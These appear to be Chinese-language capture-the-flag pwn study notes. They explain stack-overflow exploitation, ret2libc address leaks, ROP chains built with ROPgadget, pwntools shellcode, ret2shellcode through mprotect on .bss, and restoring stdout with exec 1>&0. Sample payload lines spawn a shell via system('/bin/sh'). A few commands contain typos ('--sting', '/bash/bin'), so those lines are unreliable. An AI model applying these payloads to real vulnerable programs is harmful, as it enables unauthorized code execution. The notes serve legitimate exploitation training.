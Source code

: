 ## 进程虚拟地址空间

Bss：存放未初始化的全局变量

## 使用下面的方法获取寄存器的地址

```bash
ROPgadget --binary filename --only "pop|ret"
```

## 参数传入函数时，使用寄存器的顺序:

寄存器%rdi, %rsi, %rdx, %rcx, %r8, %r9 分别用来保存函数的 6 个参数，而 %rax 用来保存函数的返回值。

## shellcode获取：

### 32位：

```python
shellcode=asm(shellcraft.sh())
```

### 64位：

```python
shellcode=asm(shellcraft.amd64())
```

## 填充字符到规定的长度以构建shellcode：

```python
padding=缓冲区长度
shellcode=asm(shellcraft.amd64.sh())
shellcode.ljust(padding,'a'))
同理rjust表示把shellcode添加在右边
```

## 常用的gdb指令：

反汇编其中的某一个函数

```python
disass main
```

查看寄存器的值：

```python
x $rbp-0x8
```

查看栈空间：

```python
x/50xg $rsp
```
---

## ret2libc

Globle offset table(GOT) 全局偏移量表
Procedure linkage table(PLT) 过程连接表

函数的真正地址 = 基地址 + 偏移地址

通过 puts 输出函数的真实地址，减去已知的偏移地址得到程序的基址
然后通过对在基址上加上偏移地址，得到之后的真实函数调用地址，实现 `system(/bin/sh)`的调用

以下面的这个payload例子为例：

```python
payload = b'a'*(0x50+8) + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(0x00000000004009A0)
```

这是第一个payload，其中的pop_rdi为寄存器rdi的值用来传递参数，puts_got为puts的got表的值，puts_plt为plt表的值，这三个连起来用即使用puts这个函数把puts的真实地址打印出来,最后面紧跟着的为之后跳转到的函数的地址，即打印完真实的puts地址后在哪里继续开始运行，可以使用这种方法实现两次甚至许多次的栈溢出，以此来获取更多的有效信息构造之后的payload（因为每一次运行程序，程序的基址都是会变的）

pwn中泄露地址 一般读到是  
```python
addr=u64(sh.recvuntil(\x7f)[-6:].ljust(8,'\x00'))
```
因为实际中一个地址的最高位两个字节是00  一般是0x7f开头

```python
payload = padding + p64(ret) + p64(pop_rdi) + p64(bin_sh) + p64(system)
```

在之前得到基址后就可以加上从对应的libc中得到的偏移地址，然后得到最后的真实地址进行跳转，获得shell

其中ret为任意一个返回地址，实现栈对齐，pop_rdi和之前的一样，作为寄存器来传递参数，参数即为后面的 `/bin/sh`，之后紧跟着的函数即为调用的被传递参数的函数system()

---

注意上面的这些构造的payload结构是适用于64位的，对于32位的程序，其结构不太一样，比如参数的传递是函数在前，参数在后，而不是像64位程序的参数在前，函数在后

---

64位是先传参，而32是栈里面传参是后传参。64位汇编传参，当参数少于7个时， 参数从左到右放入寄存器: rdi, rsi, rdx, rcx, r8, r9。 当参数为7个以上时，
前 6 个与前面一样， 但后面的依次从 “右向左” 放入栈中，即和32位汇编一样
使用下面的这几个命令可以查看寄存器的地址：

```python
ROPgadget --binary 文件名 --only "pop|ret"
ROPgadget --binary 文件名 --only "pop|ret" | grep rdi
ROPgadget --binary 文件名 --only "pop|ret" | grep rsi
```
得到了寄存器的地址可以构造rop
此外，该工具除了可以用来查找 ret/rdi的地址,还可以用来查找一些字符串的地址

```python
ROPgadget --binary 文件名 --sting '/bin/sh'
ROPgadget --binary 文件名 --sting 'cat flag'
```
比如下面的这个情况：(write函数要传三个参数)

```python
payload = offset*'a' + p64(rdi_addr) + p64(1) + p64(rsi_r15_addr) + p64(write_got_addr) + p64(0) + p64(write_plt_addr) + p64(main_addr)
```

含义：偏移量 + rdi寄存器 + 第一个参数 + rsi寄存器 + 第二个参数 + rdx寄存器 + 第三个参数 + write函数的地址 + 预留返回地址

---

```python
offset = 0x88 + 4
payload = offset*‘a’ + p32(write_plt_addr) + p32(main_addr) + p32(1) + p32(write_got_addr) + p32(4)
```

32位程序：先是write函数的地址 + 预留返回地址 + write函数的三个参数 （1 + write函数的真正地址（got表内的地址） + 打印的字节）

注意：这里的预留返回地址很重要，它的目的是要再循环一此，所以该地址必须在溢出点之前，可以是main函数起点

---

使用ret的地址去实现栈对齐的时候，在ida中要在汇编窗口中找ret命令，不能简单的使用F5反编译之后的return的地址

---

当`/bin/sh`没有或者不可用时，可以调用`sh`参数，也可以实现getshell

---

调用system函数时，也不能直接通过反编译的函数地址去调用，这样仅仅是使用了地址而已，正确需要调用的是call system这个指令

---

参考这两篇写的不错的帖子

[pwn基本ROP——ret2libc_pwn ret2libc-CSDN博客](https://blog.csdn.net/turtlesd/article/details/124421356?spm=1001.2014.3001.5506)

[PWN题型之Ret2Libc_ret2shellcode&#39; is not marked as executable (+x)-CSDN博客](https://blog.csdn.net/qq_51032807/article/details/114808339?spm=1001.2014.3001.5506)


## ret2shell

一种题型是现将shellcode写入bss中然后通过mprotect对bss进行赋权，使其可以被执行，然后再通过栈溢出去调用这个bss的内容，使其执行shellcode


其中查看内存权限的命令为`vmmap`
对于64位的程序，生成shellcode的代码为：
`shellcode=asm(shellcraft.amd64.sh())`

对于写入bss的内容，是s这个变量中存的所有内容，直到主函数返回时才会跳转到bss执行其中的内容

- bss段（bss segment）：bss是Block Started by Symbol的简称，用来存放程序中未初始化的全局变量的内存区域，属于静态内存分配。
- data段（data segment）：用来存放程序中已初始化的全局变量的内存区域，属于静态内存分配。
- text段（text segment）：用来存放程序执行代码的内存区域。这部分区域的大小在程序运行前就已经确定，并且内存区域通常属于只读（某些架构也允许代码段为可写，即允许修改程序）。也有可能包含一些只读的常数变量，例如字符串常量等。
- 堆（heap）：用于存放进程运行中被动态分配的内存段，它的大小并不固定，可动态扩张或缩减。
- 栈（stack）：用户存放程序临时创建的局部变量，也就是说我们函数括弧“{}”中定义的变量（但不包括static声明的变量，static意味着在data段中存放变量）。除此以外，在函数被调用时，其参数也会被压入发起调用的进程栈中，并且待到调用结束后，函数的返回值也会被存放回栈中。

---


## ret2text


close(1) 关闭了标准输出
打通后需要重新启动标准输出：
```sh
exec 1>&0
```
其中0是标准输入，1是标准输出，2是标准错误
1. `exec`
- 在 Shell 中，exec 可以用于 改变当前进程的文件描述符（而不是启动新进程）。
- 例如：exec 1>file.txt 会把当前 Shell 的 stdout 重定向到 file.txt。
2. `1>&0`

- 1 代表 stdout（标准输出，文件描述符1）
- &0 代表 stdin（标准输入，文件描述符0） 
- 1>&0 的意思是 “把文件描述符1（stdout）指向文件描述符（stdin）当前指向的地方” 

其中可以直接调用包含system('/bash/bin')的其他已有函数也可以直接调用system('/bash/bin')，但是需要调用从lea命令的地址开始，即下面的这种结构：

```c
lea     rdi, command    ; "/bin/sh"
call    _system
```